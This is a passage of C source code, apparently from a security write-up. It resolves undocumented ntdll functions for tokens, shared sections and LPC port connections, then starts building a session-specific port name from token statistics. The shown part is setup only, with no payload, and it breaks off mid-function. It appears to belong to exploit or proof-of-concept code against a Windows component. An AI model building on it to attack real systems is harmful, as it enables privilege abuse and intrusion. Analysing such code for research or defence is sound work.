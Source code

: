 ```

int Init()
`{`
        HMODULE ntdll = GetModuleHandleA("ntdll");

        NtOpenProcessToken = (NTSTATUS(NTAPI*) (HANDLE, ACCESS_MASK, PHANDLE)) GetProcAddress(ntdll, "NtOpenProcessToken");
        if (NtOpenProcessToken == NULL)
        `{`
                return 0;
        `}`

        ZwQueryInformationToken = (NTSTATUS(NTAPI*) (HANDLE, TOKEN_INFORMATION_CLASS, PVOID, ULONG, PULONG)) GetProcAddress(ntdll, "ZwQueryInformationToken");
        if (ZwQueryInformationToken == NULL)
        `{`
                return 0;
        `}`

        NtCreateSection = (NTSTATUS(NTAPI*) (PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, PLARGE_INTEGER, ULONG, ULONG, HANDLE)) GetProcAddress(ntdll, "NtCreateSection");
        if (NtCreateSection == NULL)
        `{`
                return 0;
        `}`

        ZwSecureConnectPort = (NTSTATUS(NTAPI*) (PHANDLE, PUNICODE_STRING, PSECURITY_QUALITY_OF_SERVICE, PPORT_VIEW, PSID, PVOID, PULONG, PVOID, PULONG)) GetProcAddress(ntdll, "ZwSecureConnectPort");
        if (ZwSecureConnectPort == NULL)
        `{`
                return 0;
        `}`

        NtRequestWaitReplyPort = (NTSTATUS(NTAPI*) (HANDLE, PPORT_MESSAGE, PPORT_MESSAGE)) GetProcAddress(ntdll, "NtRequestWaitReplyPort");
        if (NtRequestWaitReplyPort == NULL)
        `{`
                return 0;
        `}`

        return 1;
`}`

int GetPortName(PUNICODE_STRING DestinationString)
`{`
        void* tokenHandle;
        DWORD sessionId;
        ULONG length;

        int tokenInformation[16];
        WCHAR dst[256];

        memset(tokenInformation, 0, sizeof(tokenInformation));
        ProcessIdToSessionId(GetCurrentProcessId(), &amp;sessionId);

        memset(dst, 0, sizeof(dst));

        if (NtOpenProcessToken(GetCurrentProcess(), 0x20008u, &amp;tokenHandle)
                || ZwQueryInformationToken(tokenHandle, TokenStatistics, tokenInformation, 0x38u, &amp;length))
        `{`
                return 0;
        `}`
```